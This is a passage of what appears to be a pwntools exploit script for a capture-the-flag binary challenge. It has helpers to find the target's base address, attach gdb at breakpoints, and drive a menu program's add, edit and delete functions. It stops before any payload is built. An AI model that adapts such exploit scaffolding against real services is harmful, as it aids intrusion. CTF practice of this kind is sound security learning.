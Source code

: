 ```python
	else:
		print("remote")
		return remote(HOST, PORT)

def get_base_address(proc):
	lines = open("/proc/{}/maps".format(proc.pid), 'r').readlines()
	for line in lines :
		if TARGET[2:] in line.split('/')[-1] :
			break
	return int(line.split('-')[0], 16)

def debug(proc, breakpoints):
	script = "handle SIGALRM ignore\n"
	PIE = get_base_address(proc)
	script += "set $base = 0x{:x}\n".format(PIE)
	for bp in breakpoints:
		script += "b *0x%x\n"%(PIE+bp)
	script += "c"
	gdb.attach(proc, gdbscript=script)

def dbg(val): print("\t-> %s: 0x%x" % (val, eval(val)))


r = start()
if args.D:
	debug(r, [0x1419])

def list():
    r.sendlineafter(b'> ', b'2')

def add_value(pos, value, array=False):
    for n in pos:
        r.sendlineafter(b'> ', b'1')
        r.sendlineafter(b'index: ', str(n).encode())
    r.sendlineafter(b'> ', b'1')
    r.recvuntil(b'type:')
    if array == True:
        r.sendlineafter(b'> ', b'a')
    else:
        r.sendlineafter(b'> ', b'v')
    if type(value) == str: # str
        value = value.encode()
    if type(value) != bytes: # int, float 
        value = str(value).encode()
    r.sendlineafter(b': ', value)

def edit_str(pos, s):
    for n in pos:
        r.sendlineafter(b'> ', b'1')
        r.sendlineafter(b'index: ', str(n).encode())
    r.sendlineafter(b'> ', b'1')
    r.sendlineafter(b': ', s)

def delete_value(pos):
    for n in pos:
        r.sendlineafter(b'> ', b'1')
        r.sendlineafter(b'index: ', str(n).encode())
    r.sendlineafter(b'> ', b'2')

def add_array(pos, n):
    add_value(pos, n, array=True)

add_array([], 15)
```